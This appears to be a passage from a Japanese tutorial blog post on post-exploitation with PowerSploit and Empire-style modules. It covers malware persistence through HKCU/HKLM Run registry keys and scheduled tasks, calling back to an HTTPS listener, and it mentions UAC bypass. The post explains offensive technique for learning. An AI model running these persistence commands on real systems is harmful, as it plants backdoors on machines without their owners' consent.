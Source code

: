 [powershellmafia]  
https://github.com/PowerShellMafia/PowerSploit

ここでは、以下の観点でどのようなことができるのか、コマンドを紹介します。本当は試してお見せするのもいいですが、長くなりすぎるのでまた別途。  

- 持続性の確立
- 内部調査
- 権限の昇格(及び資格情報の詐取)
- 横展開系のモジュール

### 持続性の確立

永属性(persistence)とか言われるものですね。PCが再起動されてもマルウェアが動作するようにする、といったものです。  
エラーで落ちるとかもありますし、こういったことが起きてそれで攻撃が終わってしまうなら、一過性の事象になります。しかし、persistenceをつけると、そうはいきません。  
たとえば、スケジュールタスクをつけて置くことで、PCが再起動するたびに起動し直すことが可能です。種類とやり方は代表例として以下をご紹介します。  

1. レジストリ  
- userland(この操作時のユーザログオン時のみ)
```
usemodule persistence/userland/registry
set Listener https
execute
```
これで、以下に自動起動設定が追加されます。(これはHKCUの配下であり、このユーザ以外には影響がありません)  
HKCU¥Software¥Microsoft¥Windows¥CurrentVersion¥Run

- elavated(この端末で誰かログオン時に実行される)  
`UACのバイパスもする必要があります`
```
usemodule persistence/elavated/registry
set Listener https
execute
```

これで、以下に自動起動設定が追加されます。  
HKLM¥Software¥Microsoft¥Windows¥CurrentVersion¥Run

ちなみにどちらもそうですが、類似したものにRunOnceがあったりします。レジストリにはこれ以外にwinlogon/shellなど様々ありますね。  

2. スケジュールタスク

これも、userlandとシステムがありますが、意図は同じのためシンプルにコマンドラインだけ書きます。  

- userland(この操作時のユーザログオン時のみ)
```
usemodule persistence/userland/schtasks
set Listener https
execute
```

- elavated(起動してれば実行される)  
`UACのバイパスもする必要があります`
```
usemodule persistence/elavated/schtasks
set Listener https
execute
```
